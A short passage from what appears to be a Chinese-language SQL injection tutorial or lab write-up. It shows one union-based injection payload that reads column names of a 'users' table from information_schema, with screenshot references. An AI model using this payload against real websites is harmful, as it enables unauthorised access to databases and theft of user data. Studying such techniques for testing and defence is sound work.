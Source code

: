 ![](./pic-2/8-5.jpg)



#### 爆出users下的元组

先看`users`里有什么

```sql
id=-1' union select 1,2,3,4,group_concat(column_name),6 from information_schema.columns where table_name='users'--+
```

![](./pic-2/8-6.jpg)
